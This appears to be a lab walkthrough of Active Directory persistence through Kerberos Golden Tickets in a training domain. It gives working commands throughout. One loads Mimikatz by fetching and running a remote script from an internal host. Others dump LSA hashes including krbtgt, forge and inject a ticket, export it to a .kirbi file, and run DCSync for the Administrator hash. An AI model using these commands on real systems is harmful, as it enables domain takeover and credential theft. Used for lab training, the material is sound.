










Introduction
In the previous article, we achieved access to the Domain Controller. The Domain Controller is the machine that controls everything in the Active Directory environment. But how do we establish persistence so that at any time we can return and access this machine even from a low-privileged user account?
Walkthrough
Step 1: Extract the krbtgt Hash Using Mimikatz
First, we need to load Mimikatz on the Domain Controller and dump all the password hashes. The hash we are specifically interested in is the one belonging to the krbtgt account, as this is what we need to forge Golden Tickets.
Load Mimikatz into memory using the following command:
iex (iwr http://172.16.100.7/Invoke-Mimikatz.ps1 -UseBasicParsing)
Then execute the following command to dump all hashes from the LSA:
Invoke-Mimikatz -Command '"token::elevate" "lsadump::lsa /patch"'
This elevates our token and then dumps all the password hashes from the domain, including the critical krbtgt hash.

Step 2: Gather the Golden Ticket Requirements
The Golden Ticket technique has the following prerequisites:
- The NTLM Hash of the
krbtgtuser - The Domain name
- The SID of the domain
We already have the krbtgt NTLM hash from the previous step. Now we need to collect the domain name and domain SID.
To get the domain name, we use the PowerView tool:
Get-NetDomain
To get the domain SID, we run:
Get-DomainSID

Step 3: Generate and Inject the Golden Ticket
Now that we have all the required information, we open a PowerShell session, load Mimikatz, and execute the following command to generate the Golden Ticket and inject it directly into the current session using the /ptt (pass-the-ticket) flag:
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /sid:S-1-5-21-1874506631-3219952063-538504511 /ptt


Step 4: Verify the Ticket Was Injected
To verify that the ticket was successfully injected into our session, we run the klist command:
klist
We can see that the ticket has been injected and it will remain valid until the year 2032.

What Happens If We Close the PowerShell Window?
If we accidentally close the PowerShell window and open a new one, is the ticket lost? No -- the ticket persists in the logon session.

Saving the Golden Ticket to a File for Portability
If you want to use this ticket on a different machine, do you have to run the entire generation command again? Yes, unless you save the ticket to a file. Mimikatz allows you to export the ticket to a .kirbi file instead of injecting it directly, using the /ticket: parameter:
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /sid:S-1-5-21-1874506631-3219952063-538504511 /ticket:C:\Users\student407\Desktop\goldTick.kirbi
Now the ticket is saved to a file. You can transfer this file to any other machine and inject it using Mimikatz with the following command:
kerberos::ptt "C:\Users\student407\Desktop\goldTick.kirbi"
What Can You Do With a Golden Ticket?


Browsing Shared Files
With a Golden Ticket, you can browse the shared files on the Domain Controller or any machine joined to the domain:
dir \\dcorp-dc.dollarcorp.moneycorp.local\C$

DCSync Attack
You can also perform a DCSync attack. The idea behind this attack is that you can extract the NTLM hash for any user in the domain. We execute it using Mimikatz.
For example, to extract the NTLM hash of the Domain Administrator:
lsadump::dcsync /user:dcorp\Administrator
After obtaining the hash, you can then perform a Pass The Hash attack to authenticate as the Domain Administrator. This technique was covered in a previous article -- refer back to it if you are unfamiliar with Pass The Hash.
